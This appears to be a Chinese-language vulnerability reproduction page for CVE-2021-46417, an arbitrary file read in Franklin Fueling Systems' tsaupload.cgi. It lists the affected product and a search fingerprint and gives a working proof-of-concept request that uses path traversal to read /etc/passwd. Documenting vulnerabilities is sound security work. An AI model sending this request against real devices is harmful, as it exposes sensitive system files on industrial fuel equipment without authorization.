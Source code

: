 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>Franklin Fueling Systems</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Franklin Fueling Systems"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1657420562693-75382d60-8299-4a3e-89b0-22a22a913500.png)

验证POC

```php
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![img](../../../.vuepress/public/img/1657420647065-c03ec27d-901d-4bec-9949-b269306f4252-20220710103840550.png)